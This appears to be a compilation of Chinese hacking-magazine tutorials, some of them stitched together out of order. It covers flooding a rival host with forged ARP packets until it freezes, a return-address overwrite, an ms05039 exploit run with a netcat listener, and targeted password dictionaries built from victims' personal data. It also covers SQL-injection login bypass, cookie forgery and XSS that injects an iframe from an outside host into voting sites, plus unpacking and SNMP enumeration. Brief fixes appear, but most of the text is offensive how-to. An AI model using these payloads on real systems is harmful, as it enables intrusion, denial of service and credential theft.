向外传输是依赖 ARP 协议的，当然，也就是依赖 ARP 缓存。要知道，ARP 协议的所有操作都是内核自动完成的，同其他的应用程序没有任何关系。而 ARP 协议并不只在发送了 ARP 请求才接收 ARP 应答。当计算机接收到 ARP 应答数据包时，就会对本地的 ARP 缓存进行更新，将应答中的 IP 和 MAC 地址存储在 ARP 缓存中。因此，B 向 A 发送一个自己伪造的 ARP 应答，而这个应答中的数据为发送方 IP 地址是 192.168.10.52（C 的 IP 地址），MAC 地址是 DD-DD-DD-DD-DD-DD（C 的 MAC 地址本来应该是 CC-CC-CC-CC-CC-CC，这里被伪造了）。当 A 接收到 B 伪造的 ARP 应答，就会更新本地的 ARP 缓存，将本地的 IP-MAC 对应表更换为接收到的数据格式；由于这一切都是 A 的系统内核自动完成的，A 可不知道被伪造了。

网络执法官利用的就是这个原理，向受害者发送源硬件地址为随机产生的、并非来自网关的 ARP 应答包，于是在受害者缓存里，网关的 IP 是正确的，可对应的硬件地址却是错误的。这样计算机向外发送的数据包就是发送到了错误的网关硬件地址上。而同时发送这种虚假数据包到网关，网关缓存里也有了无效的受害用户硬件地址。于是，网关和用户的通讯被阻断了。

事实上，仅中断受害者的通讯并达不到盗用者的目的，它会自己伪装成受害者不断向网络内发送 ARP 应答包，其中 IP 是受害者的，而硬件地址是盗用者的。那么为什么会产生冲突警告呢？

主机 A 在连接网络（或更改 IP 地址）的时候就会向网络发送 ARP 包来广播自己的 IP 地址，如果网络中存在相同 IP 地址的主机 B，那么 B 就会通过 ARP 来 reply 该地址。当 A 接收到这个 reply 后，A 就会跳出 IP 地址冲突的警告，当然 B 也会有警告。因此盗用者不断发出的 ARP 包使用户一直遭受 IP 地址冲突警告的困扰。

可见，该软件的盗用方法：一是通过欺骗受害者（找不到网关），二是通过欺骗大家来实现的（假冒合法用户）。

下面需要了解一下一般解决方法。很多人知道如何捆绑 MAC 地址和 IP 地址：进入“MS-DOS 方式”或“命令提示符”，在命令提示符下输入命令 `ARP -s X.X.X.X YY-YY-YY-YY-YY-YY`，即可把 MAC 地址和 IP 地址捆绑在一起。这样，就不会出现 IP 地址被盗用而不能正常使用校园网络的情况。

从前面的分析我们知道，即使我们知道了正确的网关硬件地址，由于盗用者不断发送伪造 ARP 包，网关却不知道合法用户的硬件地址，而且合法用户端主机会不断产生 IP 冲突的警告。事实上，ARP 命令是对局域网的上网代理服务器来说的，细节内容不在本文论述范围内。

一般说来，在网络关键设备上使用的解决盗用的方法大体上有三种方案：
- 一、采用路由器将网卡 MAC 地址与 IP 地址绑定；
- 二、采用高端交换机将交换机端口、网卡 MAC 地址与 IP 地址三者绑定；
- 三、代理服务器与防火墙相结合的方法。

这几种方法各有优缺点。采用路由器将网卡 MAC 地址与 IP 地址绑定的方法，只能解决静态地址的修改，对于改动修改 IP-MAC 地址就无能为力。采用高端交换机将交换机端口、网卡 MAC 地址与 IP 地址三者绑定的方法，可以解决改动修改 IP-MAC 地址的问题，但高端交换机费用昂贵，而且解决冲突具有滞后性，对学生用户也带来很大不便；其他两种方法随着网络用户的更新、数据增长也带来沉重的管理负担和成本提高等问题。

结合高校园网较为广泛采用的是统一身份认证与计费软件相结合的管理方案，而 IP 地址的分配采用 NAT（Network Address Translation）。NAT 就是指在一个网络内部，根据需要可以随意自己定义的 IP 地址，而不需要经过申请。在网络内部，各计算机间通过内部的 IP 地址进行通讯。而当内部的计算机要与外部 Internet 网络进行通讯时，具有 NAT 功能的设备（如路由器）负责将其内部的 IP 地址转换为合法的 IP 地址（即经过申请的 IP 地址）进行通信。

在现实中，由于种种原因并不实行端口、IP 及 MAC 的绑定。这意味着如果合法用户被非正常地切断了与网络的逻辑联系（遭受地址欺骗攻击等）或物理联系（网线断或断电），随即在某一小时的时间间隔内，另外一台计算机可以在任意接口，用该 IP 地址以不经认证的方式登录网络。

下面就这种网络环境为背景，论述一种新的个人解决方案。以下内容相关测试软件使用 Sniffer Pro v4.7，这是一款功能强大的嗅探类软件，有数据包编辑及发送功能。

先来审视一下我们的处境：遭受 ARP 欺骗，与网关的 MAC 失去了联系，同时网络上有人冒充我，我能听见（冲突提示）却无能为力。根据以上的内容我们知道了其得逞的内部细节，利用网络执法官软件，不断进行以下两个操作（注意是“不间断”）：
- 1. 向合法主机发送伪造的网关的 ARP 应答包，其源硬件地址为伪造的不存在的，源协议地址为网关真实地址；
- 2. 向监控范围内机器（如 1-254）不断循环发送 ARP 请求包，其源硬件地址为盗用者的，源协议地址为合法用户主机的。

我们接下来应对策略的主题思想如下：网络执法官类软件在盗用者机器上一旦运行，发送的 ARP 包对网段内每台机器来说都是有一定周期的，而其本身在发送频率上也有一定限制，所以对单一合法用户端发送的 ARP 包系统开销较小。而合法主机如果构造出一种声明本机合法地位的 ARP 数据包，且以较大的发送频率发送到盗用者机器上（Sniffer Pro 数据发送默认周期为 1 毫秒），则其机器上的系统开销将大大增加，加上系统内核会不断处理接到的 ARP 包，这时盗用者机器上会不断提示 IP 冲突。同时将会对机器及网络其他层的效率产生干扰，极易产生系统死锁。

而这一切由于 ARP 处于网络协议的底层，对一般防火墙等高层软件是透明的，盗用者无从察觉，只能看到机器不断弹出冲突信息，系统很快慢下来，最终没有任何响应。

以上是整体思路，下面看看是如何实现的。让我们先了解一下 ARP 协议的数据结构：

```c
typedef struct arphdr {
    unsigned short arp_hrd; /* 硬件类型，使用的硬件（网络访问层）类型，一般为 0806 (ARP) */
    unsigned short arp_pro; /* 协议类型，解析过程中协议使用以太类型的值，一般为 0001（10M以太网） */
    unsigned char  arp_hln; /* 硬件地址长度，对于以太网和令牌环来说，其长度为 6 字节 */
    unsigned char  arp_pln; /* 协议地址长度，IP 的长度是 4 字节 */
    unsigned short arp_op;  /* ARP 操作类型，指定当前执行操作的字段：1 为请求，2 为应答 */
    unsigned char  arp_sha[6]; /* 发送者的硬件地址 */
    unsigned long  arp_spa;    /* 发送者的协议地址 */
    unsigned char  arp_tha[6]; /* 目标的硬件地址 */
    unsigned long  arp_tpa;    /* 目标的协议地址 */
} ARPHDR, *PARPHDR;
```

假设盗用者的硬件地址是 AA-AA-AA-AA-AA-AA，我们合法用户的硬件地址是 BB-BB-BB-BB-BB-BB，被盗 IP 地址是 192.168.1.50。为了便于说明，我们先取用发送目标为 192.168.1.51 的 ARP 数据包。由于盗用者不断发送 ARP 请求包，我们很容易获得，如图 1。

我们再结合图 1 中上半部分的协议解析来分析下半部分代码的意义，共有四行，每行都标了号。

```text
00行 ff ff ff ff ff ff  目标地址（每个用户都能收到）
aa aa aa aa aa aa       发送方的硬件地址
08 06                   指明使用ARP协议
00 01                   10M以太网
08 00                   使用IP协议
06                      硬件地址长度6字节
04                      协议（IP）地址长度4字节
00 01                   ARP请求包
aa aa aa aa aa aa       发送方硬件地址
c0 a8 01 32             发送方IP地址
00 00 00 00 00 00       目标硬件地址
c0 a8 01 33             目标IP地址
```


图1

其他数据与本文无关，暂不讨论。我们看一下不难发现，对应我们 IP 的硬件地址被篡改了。要做的只是简单修改四个地方，如图 2 标记。对照前边捕获的我们看到改动处有：
- 1. `aa aa aa aa aa aa`，目的硬件地址为盗用者的（DLC，数据链路层地址）；
- 2. `bb bb bb bb bb bb`（第一组）发送方硬件地址为合法用户的（DLC）；
- 3. `bb bb bb bb bb bb`（第二组）发送方硬件地址为合法用户的（ARP）；
- 4. `(c0 a8 01) 32`，目的地址为合法用户盗用 IP，即盗用者现有 IP（ARP）。


图2

最后，我们可以将其发送给盗用者了。很快盗用方机器将不会有响应了。于是，盗用者便不会再轻易行动，我们重新配置自己的 IP，即可正常访问网络；如果情况严重，也可尽快注销登录，盗用者没有口令无法访问网络（前面讲述网络背景），用户可过一段时间再登录。

笔者实验环境如下：TP-LINK R402M 路由器，配置为 CPU1.8G RAM1.0G 的台式机模拟盗用者机器 A，配置为 CPU1.0G RAM128M 的笔记本模拟被盗者机器 B。笔者用 Sniffer Pro 的全速发送构造数据包的方法，15 秒左右时间使 A 进入停滞状态，随即改回合法 IP，即刻生效。

| IP | 掩码 | 网关 |
|---|---|---|
| 10.A.B.C | 255.255.0.0 或 255.255.240.0 | 10.A.0.1 |
| 192.168.1.X | 255.255.255.0 或 255.255.255.192 | 192.168.A.1 |

这些是因为虽然在 TCP/IP 网络中，计算机往往需要设置 IP 地址后才能通讯，实际上计算机之间的通讯并不是通过 IP 地址，而是借助其网卡的 MAC 地址。IP 地址只是被用于查询欲通讯目的计算机的 MAC 地址。因此，根据以上内容，如果没有上网冲浪的需要，完全可以自己配置一个空闲的 IP 地址上校园局域网；但如果这个接入网络的端口是有一定权限的，将会产生新的安全隐患。

除了上述 ARP 协议的利用方法，我们还可以扩展到整个网络协议（如 TCP、UDP），只要操作适当，以上方法完全可以稍加修改加以应用。其主要原理是：校园网数据流量大、延迟较大，盗用者频繁发送、接受数据包，可以利用盗用者端的拥塞加大盗用者机器的处理及发送时延，趁机重新获得自己的 IP 地址使用权。

值得一提的是，从以上内容我们不难看出，如操作不适当可能会带来一些负面影响，如产生广播风暴等。我们不得不承认网络是把双刃剑，比如我们可以使用 Sniffer 进行以上问题的解决，但一种盗用情况却是利用 Sniffer 帮助盗用者实现目的。很多情况下非法用户并不知道某些外露接口的可用网络配置参数，而利用 SNIFFER 完全可以不用配置任何网络地址，而完全依靠物理接入网络后嗅探到的网络中的数据包，从而通过各类地址的常用分配方法猜测其可用配置。

IP 盗用问题实质上就是用户身份认证问题，解决方案多种多样。安全是一个动态的概念，而本文是个人角度的解决策略，以一种新的思维结合 Sniffer 软件论述了部分网络协议与 IP 盗用解决方案。

（本文所涉及的相关工具：Sniffer Pro V4.7，光盘中有收录。）


# 菜鸟也学缓冲区溢出

关于缓冲区溢出的文章在网上已经有很多高手都写过了，但我这个人一向就这么愚钝，总是跟不上时代，等大家都涉及了我才开始学。今天就向大家汇报一下我学习缓冲区溢出的一点点心得吧。

先说说跟缓冲区有关的概念——堆栈。堆栈是一种后进先出的结构，这是因为后入堆栈的值总是最先被取出。它是 CPU 内部硬件直接支持的，也是实现过程调用和过程返回机制的基本组成部分。

- 1. 参数被压入堆栈。  
- 2. 过程被调用，返回地址被压入堆栈。  
- 3. 过程开始执行时，EBP 被压入堆栈。  
- 4. 使 EBP 的值与 ESP 相等（EBP 作为寻址过程参数的基址指针）。  
- 5. 从 ESP 中减去一定数值为局部变量创建空间（即缓冲区）。

```text
内存低地址            内存高地址
<--------  buffer  ebp  ret  参数
<--------  [    ][   ][   ][   ]
```

入栈的 ebp 是调用函数前的 ebp，入栈后 ebp 被赋新值，可用新的 ebp 来对参数或缓冲区进行寻址。知道这些概念后，来看一个实例，通过覆盖函数的返回地址来改变程序的流程。

```c
#include <windows.h>
char *shellcode="\x61\x62\x63\x00";

void test()
{
    char buffer[4];
    strcpy(buffer, shellcode);
}

void main()
{
    int i=0;
    if(i)
        system("shutdown -s -t 36000");
    else
        MessageBox(NULL,"OverFlow Test","Test",MB_OK);
    test();
}
```

在 VC 编译前关闭优化选项（工程→设置→C/C++，Category 选 General，优化选 Disable），选择 Win32 Release，便于调试。编译后使用 OllyDbg 打开 test1.exe，跟踪到 main() 函数。

```text
00401014  push ebp
00401015  mov ebp,esp
0040101D  push ecx
0040101E  mov dword ptr ss:[ebp-4],0
...
```

```text
00401025  cmp dword ptr ss:[ebp-4],0
00401029  je short test1.0040103A
0040102B  push test1.0040603C
00401030  call test1.00401150
00401035  add esp,4
...
0040104B  call dword ptr ds:[<&USER32.MessageBoxA>]
00401055  pop ebp
00401056  retn
```

```text
00401000  push ebp
00401001  mov ebp,esp
00401003  push ecx
00401004  mov eax,dword ptr ds:[406030]
00401009  push eax
0040100A  lea ecx,dword ptr ss:[ebp-4]
0040100D  push ecx
0040100E  call test1.00401060
...
00401019  retn
```

用溢出改变流程是更改 retn 时所用的栈，使其跳转异常。我们希望它跳转到 `system("shutdown -s -t 36000")` 处。在 test() 函数里申请了 `char Buffer[4]` 后，栈里结构如下。

```text
内存低地址      内存高地址
<--------  buffer  ebp  ret
<--------  [abc][EBP][RET]
Stack+0 -> Buffer
Stack+3 -> ebp
Stack+7 -> ret
```

所以我们用来覆盖返回地址的字符串只要比正常缓冲区更长，就可以把后续的 ebp、ret 一并覆盖，从而控制程序执行流。

长度多 8 个字节就可以（由于我们的缓冲区长度是 4 个字节，所以一共要 12 个字节），而最后 4 个字节是地址 `0040102B`，就可以让它在执行时跳到 `0040102B` 处，就可以改变我们的流程，让它执行 `system("shutdown -s -t 36000")` ...

```c
void test(){
    char buffer[4];
    strcpy(buffer, shellcode);
}

void main(){
    int i=0;
    if(i)
        system("shutdown -s -t 36000");
    else
        MessageBox(NULL,"OverFlow Test!","Test",MB_OK);
    test();
}
```

```text
内存低地址            内存高地址
<---------  buffer ebp ret
[abcd][efgh][0040102B]
```

返回地址 ret 变成了 `system()` 函数参数入栈的地址。改变后的代码是：

```c
#include <windows.h>
char *shellcode="\x61\x62\x63\x64\x65\x66\x67\x68\x2B\x10\x40\x00";
```

编译后运行，是不是出现了一直关机的对话框啊！我使用的环境是 Windows XP+VC 6.0，如果环境不一样，可能上面所使用的地址也不一样了。刚刚接触缓冲区溢出，难免有些错误，请大家指正。

# 实战虚拟机组局域网

组建局域网需要多台电脑、网线等很多硬件设备，对于我们广大的菜鸟来说几乎是不可能的，今天我就将教会你仅使用一台电脑就组建一个虚拟局域网。首先下载虚拟机 Virtual PC ...

安装 NetBEUI 协议，其实只要有 TCP/IP 协议，我们的虚拟局域网照样可以运行，但 TCP/IP 协议在局域网中的通信效率并不高... 在“本地连接”属性中安装“协议”，浏览到 `\Valueadd\Msft\Net\NetBEUI` 下的 `Netnbf.inf` 文件...


设置 IP 地址，在“本地连接”属性中选中“Internet 协议”后点“属性”，设置虚拟机 IP 地址为 `192.168.0.2`，子网掩码 `255.255.255.0`，默认网关 `192.168.0.1`；宿主机设置为 `192.168.0.1` ...


先启用 Guest 帐户，在“控制面板”→“管理工具”→“计算机管理”→“本地用户和组”→“用户”的右侧双击“Guest”，在弹出的对话框中取消“帐户已停用”前面的勾（图3），确认后 Guest 帐户就启用了。

“用户权利指派”双击右侧的“拒绝从网络访问这台计算机”，在弹出的对话框中将 Guest 帐户删除（图4）。在需要共享的文件夹上点右键“共享”，勾选上“在网络上共享这个文件夹”，就可在网上邻居中将此文件夹共享；如同时勾选“允许网络用户更改我的文件”，网络用户对此文件夹内容具有修改权。此文件夹图标变成一只手托着文件夹的图标，就表明此文件夹已经在网络上共享。经过以上设置，就可在网上邻居中共享资源了；对于少数电脑仍无法共享的用户，可将“本地安全策略”——“本地策略”——“安全选项”中的“使用空白密码的本地帐户只允许进行控制台登录”禁用（图6）（经过实验，此选项好像用途不大）。我们的虚拟局域网建好了，如果你的 CPU 频率足够快，内存超过 512M，你还可以同时运行多个虚拟机组建一个真正的小型局域网。组建设置方法和上述方法基本相同，需要注意的是其它虚拟机设置的 IP 地址为 192.168.0.2—192.168.0.254 中任意地址，只要不相同就可以。下面来看看我们的虚拟局域网，我们用 ms05039 漏洞来测试一下。


```bash
nc -v -l -p 123
ms05039.exe 192.168.0.2 192.168.0.1 123 1
```

# 社会工程学之密码心理学

H4K_B4N[B.C.T]

社会工程学（Social Engineering），一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、劝降等危害手段，取得自身利益的手法。本文就将详细介绍其中的密码心理学手法。密码心理学是一种基于人性心理漏洞的攻击手法，因为使用密码的人群为了便于记忆密码，通常会使用自己较为容易记忆的顺序以及内容，所以攻击者通常会根据以下几种形式进行攻击。

- **1. 针对自身出生年月日以及姓名结合出生年月日进行用户密码的推算**：通常国内的用户都爱利用自己的名字拼音字母作为自己的常用密码，或者是利用自己的出生年月日作为常用密码，因此基于这种比较显而易见的密码推算就成为了黑客较为常用的手段。常见样式如：`zhangziqi920106`、`alex78564`、`987541635kelly`、`19950101`、`zhangziqi` 之类。
- **2. 针对用户移动电话或身份证明文件进行用户密码推算**：有个别用户开始不采用名字结合出生年月日的手法，改为采用家庭电话、手机电话或者身份证、军人证、学生证等号码作为常用密码。这种方式在破解上有一定困难，但攻击者可通过收集更多信息进行破解。常见样式如：`138000025246`、`44020199902021645` 之类。
- **3. 针对用户身边亲密朋友或者直系亲人的姓名或出生年月日进行用户密码推算**：因个人信息关联性较强，很多人会采用亲友信息作为密码，仍然属于高风险弱口令模式。

## 4. 较为常用多用的密码

以前在国内外有些黑客组织会把每个国家所常用的密码作为一个字典库提供下载。我们常见的密码通常来源于姓名、数字排列等，例如 `alex`、`tommy`、`kelly`，以及 `123123`、`521321`、`123456` 等。

## 5. 系统自带默认使用的密码

例如常见 WEB SERVER、Router、BBS、PowerEasy 等系统都可能存在默认账号密码。很多用户安装后不改默认口令，给攻击者留下机会。

介绍完密码心理学的针对特点之后，若要针对目标的密码类型，需要先收集目标常用论坛、网站留言板、即时聊天系统等公开资料，并结合搜索引擎进行信息汇总。

可从论坛与社交资料中收集 E-Mail、QQ、MSN 等信息，进而推测英文名、生日、手机号等关键字段，作为字典构造依据。


手机号码为 136 开头，结合 QQ、E-MAIL、注册名与生日信息，可构造更有针对性的密码字典，提高猜测成功率。

在右栏中进一步说明：采集资料时应重点标注生日、手机号、英文名与亲密朋友姓名等信息，再按组合规则生成字典。

- 出生年月日部分为：19861003、1986-10-03、861003、86103
- 英文名字结合生日部分为：alex19861003、19861003alex、861003alex、alex861003 等
- 亲密朋友结合生日的部分为：kelly19861003、kelly861003 等

要注意用户可能将名字前后倒置或进行大小写混排。若针对大型服务进行批量破解，可用字典工具生成库并结合规则扩展。

# 投票，也有漏洞

## 一、漏洞

投票程序的漏洞大致有三种类型。

## 1. 暴库

暴库漏洞在投票程序中比例较高。通常先定位 ASP 投票文件名（常含 `vote` 字符），再构造路径触发数据库报错信息。

```html
<tr><td><script language="javascript" src="admin/vote/voteday.asp"></script></td></tr>
```


将投票程序 ASP 文件名前的 `/` 改为 `%5c` 提交后，可暴出数据库路径，再下载并用 Access 查看，可能获得管理员账号与密码。


## 2. 后台登录

先来看一段代码：

```asp
<%set rs=server.createobject("adodb.recordset")
sql="select * from admin where admin='"&request("admin")&"' and pwd='"&md5(trim(request("pwd")))&"'"
rs.open sql,conn,3,1
if rs.eof then
  response.write "<script>alert('用户名不存在或者密码错误')</script>"
  response.write "<script>history.back(1)</script>"
else
  response.cookies("admin")=rs("admin")
  response.cookies("qx")=rs("qx")
  response.write "<script>location.href='step1.asp'</script>"
end if
rs.close
set rs=nothing
conn.close
set conn=nothing
%>
```

登录这种代码的后台，有两种破解方式：一种是 OR 登录，另一种是 Cookies 欺骗。先介绍 OR 登录……构造特殊用户名（如 `1' or 1=1 or '1'='1`）可绕过验证并进入后台。


图3

OK！说过了 OR 登录，再来看 Cookies 欺骗登录。在前面列出的代码中，有这样一段：

```asp
response.cookies("admin")=rs("admin")
response.cookies("qx")=rs("qx")
```

当登录用户的名称及密码验证正确，程序会在该用户的 Cookies 中增加 admin 和 qx 两项……在 Check.asp 中有如下语句：

```asp
<%if request.cookies("admin")="" or request.cookies("qx")="" then
  response.write "<script>alert('你还未登录')...</script>"
  response.write "<script>location.href='index.asp'</script>"
  response.end
end if%>
```

嗨！只要 admin 和 qx 的值不为空，就不会出现错误提示……将 Cookies 值改为 `admin=aa; qx=1`，然后访问后台管理页面即可进入。


图4


图5

## 3. 注入

说道注入，投票程序也不少见……`request("admin")` 就是一个 SQL 注入点。可通过 `and 1=1`、`and 1=2` 等方式测试页面回显差异，进而判断是否存在注入点。若存在注入，可尝试暴力破解或 union 查询。

## 二、危害

经过对投票程序的一番探测，已具备管理员权限……若在投票选项中写入网页木马或跨站代码，危害将扩大。以“梦痕网络投票调查系统”为例，部分后台可直接写入脚本。


图6

```html
<script language="javascript" src="路径/votedy.asp"></script>
```

文件前面。在地址栏中输入 `http://127.0.0.1/vote/votedy.asp`，显示的页面如图6（注：这里中的“vote=vote+”正是快速查找此类投票站点的关键字）。点右键查看该页源文件，其中的部分代码如下：

```html
vote=vote+"<tr>"
vote=vote+"<td width='100%'><input type='checkbox' name='voteq' value='10' size='20'>感觉很喜欢</td>"
vote=vote+"</tr>"
```

- `vote` 是由前一个 `vote` 的内容加上此次所赋予的代码组成。
- `vote` 与代码之间的连接是用加号 `+` 完成的。
- 代码采用双引号引入，而变量采用单引号。

打开后台修改投票窗口，将原投票项“感觉很喜欢”改为如下跨站代码：`感觉很喜欢"+"<script>alert('hello')</script>`。成功时会弹出 `hello` 窗口，但提交修改的投票选项后，IE 返回错误。


分析可知：提交的投票选项是用单引号引入 SQL 语句中的，而前面构造的跨站代码中含有单引号，导致语法错误。进一步测试发现，即便绕过引号问题，`vote` 字段长度有限（约50），普通注入代码长度超限。

- 先在可控空间新建 `1.js`，内容示例：`document.write("<iframe ... src=http://www.xxx.com/mm.htm></iframe>")`。
- 将构造好的跨站代码写入投票选项（如“感觉很喜欢”）中并引用 `1.js`。
- 在网站根目录新建 `index.htm`，内容引用 `vote/votedy.asp`，再访问 `127.0.0.1/index.htm` 验证效果。


> 如果数据库字段类型或过滤缺失导致可写入 `.asp/.asa` 等内容，风险将进一步升级，可能导致 WebShell 等严重后果。

## 三、补漏

- 对爆库：在数据库连接文件（如 `conn.asp`）加入容错语句 `on error resume next`。
- 对后台 OR 登录绕过：对提交变量做 `replace()` 过滤，如单引号、`and`、`or`、`select` 等敏感词。
- 对 Cookies 欺骗：加入 Session 值校验。
- 对可写入数据库的内容：结合 `Server.HTMLEncode()` 与 `Replace()` 过滤，阻断 HTML/ASP 代码注入。

```asp
<%
if session("us")<>123456 then
  response.redirect "admin_login.asp"
end if
%>
```


找 OEP 的一般思路如下：先看是加密壳还是压缩壳，压缩壳相对来说破解容易些，一般没什么异常。找到对应的 POPAD 后就能找到入口，跳到入口的方式一般为：

- JMP OEP
- PUSH OEP；RET
- CALL OEP

壳、脱壳、加壳，相信大多数菜鸟在刚接触软件破解时都会遇到这些名词。到底这“壳”为何物？为什么要给软件加壳？怎样脱掉软件的壳？这些问题肯定在菜鸟们心中积存了很久，今天我就以一个刚入门 Cracker（比菜鸟强那么一点）的身份向菜鸟兄弟们讲一下这些问题，希望可以使他们早些入门。

壳，我想大家对这东西应该不会陌生吧！通常自然界的植物，其种子的外层都会有一层坚硬的物质来保护种子。而对于计算机来说，一些计算机软件（一般多为共享软件）里也有一段专门负责保护软件不被非法修改或反编译的程序。它们一般先于程序运行，拿到程序的控制权，然后完成它们保护软件的任务。由于其与自然界中壳在功能上有很多相似的地方，基于命名规则，大家就把这样的程序称为“壳”了。

那为什么要给软件加壳呢？换句话说就是加壳有什么作用呢？大多数软件的作者将软件编译好后，有一些东西需要保护。常见的情况有以下几种：

- 版权信息等，软件作者当然不希望被别人任意改动。
- 编译好的程序太大，不方便使用，使用一些压缩软件（不是 WINRAR、WINZIP 之类压缩器，而是用压缩壳）。
- 为了躲避杀毒软件的查杀，给木马、后门等加入壳。
- 共享软件中，作者为了养家糊口而卖几个注册码。为防止被人破解，给软件加壳以增加破解难度。

常用的加壳软件有以下几种：ASPACK、UPX、PECOMPACT 等。一般的，这几个壳也很好破。常用的软件编写语言有 DELPHI、VB、VC 等，其中使用 VB 编写的软件最难破解。因为 VB 程序在本质上是解释执行的，将其反汇编后，代码的可读性不太好，要想动态跟踪其代码非常困难。

好了，壳的类型和语言就介绍到这儿。下面介绍常用的脱壳工具。列举的软件较详细，很多菜鸟或许在很长时间内也不会用到，不过还是记下来吧：

- 文件分析工具（侦测壳的类型）：FI、GETTYP、PEID、PE-SCAN。
- OEP 入口查找工具：SOFTICE、TRW、OLLYDBG、LOADER、PEID。
- DUMP 工具：ICEDUMP、TRW、PEEDITOR、PROCDUMP32、LORDPE。
- PE 文件编辑工具：PROCDUMP32、LORDPE。
- 重建 IMPORT TABLE 工具：IMPORTREC、REVIRGIN。

菜鸟脱壳一般为自动脱壳，即利用现成的脱壳工具，只须进行简单的几步操作，就可以完成。而高手通常会采用手动脱壳的方法，手动脱壳需要运用汇编语言、跟踪断点，用 TRW2000、TR、SOFTICE 等调试工具，对脱壳者有一定水平要求，不适合初学者。

下面介绍一下脱壳的基本原则，就是单步跟踪，只能向前，不能向后。脱壳的一般流程：查壳——寻找 OEP——DUMP——修复。

当然也有其他的，如 JE OEP 等等，一般都是段之间的大跳转。OD 的反汇编窗口里都是同一个段的内容，所以更好区别是否是段之间跳转。

我们来说说关于 F8（step over）和 F7（step in）的一般方法，粗跟的时候一般都是常用 F8 走，但是有些 CALL 是变形的 JMP，此时就需要 F7 跟过。区别是否是变形的 JMP 的一个简单方法是比较 CALL 的目标地址和当前地址，如果两者很接近，一般是变形的 JMP 了，用 F7 走。对于加密壳方法一般是 OD 载入，忽略所有异常（不忽略任何异常，有时由于异常过多可以适当忽略一些异常），运行，数着用了多少次 SHIFT+F9 程序运行，显然最后一次异常后，程序会从壳跳到 OEP 开始执行，这就是我们寻找 OEP 的一个关键。

下一步，修复 IAT。由于加密壳对输入表进行了重定位，所以现在的文件还不能正常使用。必须用 IMPORTREC 修复输入表。修改 OEP，点击 IAT 自动搜索——获得输入信息——修理抓取文件，这里选择刚才 DUMP 的程序，OK，脱壳成功！

下面介绍一下 PEID 0.93 汉化版：PEID 能够侦测出几乎所有的壳，其数据库已超过 470 种 PE 文件的加壳类型和签名，新的 0.93 版本增加了命令行操作支持，使用非常方便。经分析是目前各类查壳工具中性能最强大的一款。

另外还可识别出 EXE 文件是用什么语言编写的，比如：VC++、Delphi、VB 等。此外我们还可以用 language2000 4.51 来查文件信息。

好了，文件信息知道了，搞定了壳的类型，就可以对症下药了。上面提到了最常用的 3 种壳。下面分开介绍。

# 一、ASPACK

直接用 UNASPACK 就可以了。不过版本一定要搞清。我向大家推荐一款工具：AspackDie 1.41 电脑神童汉化版。这是一个小小的 PE 文件解压缩器（EXE、DLL、……），它可以解压缩自 Aspack 2000 以后的任何 Aspack 版本，包括：

- Aspack 2000
- Aspack 2001
- Aspack 2.11
- Aspack 2.12
- Aspack 2.12a/b
- 以及一些未知的版本

# 二、PECompact

- 方法1：使用 unpecompact。
- 方法2：使用 peid 的插件“PEid Generic Unpacker”，如图1。

# 三、UPX

```bash
upx -d xxx.exe
```

脱 UPX 壳：可用 UPX 脱壳软件，如 xxx.exe 和 upx.exe 位于同一目录下，执行 Windows“开始”菜单的“运行”，键入上面的命令。

再来介绍一个通用的脱壳软件：QUPACK（全称 Quick Unpack v1.0.83 For Windows 2000/XP/2003/Vista 汉化版）。Quick Unpack 用于快速（据称两秒内）脱一些常见壳，并可修复导入表，如：UPX、ASPack、FSG、MEW、PE Diminisher、PECompact、PE-PACK、PackMan、WinUPack 等。该程序尝试统计所有可能的加密器/混淆器以实现脱壳的目的，其图标如图2。下面以“FireTv 烈火网络电视”为例讲一下其如何使用，顺便也回顾一下前面讲到的一些工具的使用。

- 1. 用 PED 查壳，发现是：`UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo`。
- 2. 用 PE-SCAN 查文件 OEP 为：`00101CAC`，如图3。
- 3. 用 QUPACK 脱壳：填入 OEP，选定文件，并选“暴力脱壳”（图4），确定后数秒完成。

最后可以用 OD 检验一下壳是否脱干净。OD 载入程序，如果出现图5所示对话框，证明脱壳比较干净；反之则可能仍有问题。好了，有了上面介绍的几款工具的组合，我想菜鸟们遇到一般的壳应该可以比较简单地搞定。这次的菜鸟脱壳教程到此结束。

## Windows攻击，别漏掉了SNMP

对于收集系统信息，我们都爱使用 IPC。的确，IPC 可以获得很多系统信息，但现在稍微有些安全意识的人都知道要关闭 IPC 以保证基本系统安全。但是，他们往往会忽略另一个重要的安全隐患，那就是 SNMP！利用 SNMP 同样可以获取很多系统信息，而且这些信息是 IPC 获取不到的。最重要的是 IPC 需要权限，而 SNMP 只需知道团体名称就可以进行攻击，很是实用。本文就带领你了解 SNMP 的攻击与防御，希望对你有所帮助。

## 一、SNMP 的概念

### 1. SNMP 简介

SNMP（Simple Network Management Protocol）即简单网络管理协议，是一个被广泛接受并投入使用的工业标准，用于管理网络中的设备，不管是路由器、防火墙还是打印机，所有连入网络中的设备都可以通过 SNMP 来监控和管理。因此它被网络管理员广泛使用，但 SNMP 在安全保障方面较弱，容易被用于收集系统敏感信息。

### 2. 团体名称

SNMP 将团体名称（Community Strings）作为唯一的验证机制，所以站在攻击者角度可以把其称为“查询密码”。只要有该字符串，就可以通过 SNMP 收集很多重要系统信息。客户端连接目标 SNMP 服务并提供正确的 Community Strings 后即可获得权限。Windows 赋予了多种权限，默认通常为只读。连接成功后，可访问管理信息库 MIB（Management Information Base），其中保存系统重要信息。多数 Windows 版本及许多网络设备常见默认字符串为 `Public`，少数设备使用 `Private`，但都可能被字典猜测。

### 3. 对象标识符

Object Identifier，简称 OID，是管理信息库 MIB 中各种信息存放树资源的数字标识。

## 二、SNMP 的攻击

### 1. 信息探测

SNMP 服务在 UDP 161/162 端口监听，在 Microsoft Windows Resource Kit 中有一个工具 Snmputil 可以获取 SNMP 的信息。该工具大小只有 9k，小巧实用，是一个 DOS 命令行程序。我们首先了解一下 Snmputil 的命令行格式及各参数的用法。

```bash
Snmputil [get|getnext|walk] agent community oid [oid] [trap]
```

- get：获取指定 OID 的信息
- getnext：获取指定 OID 后边的信息，即下一个信息
- walk：获取指定 OID 所有数据项的值，获取系统信息
- agent：查询指定的计算机（IP 或主机名）
- community：Community Strings，可视为查询密码
- oid：Object Identifier，对象标识符

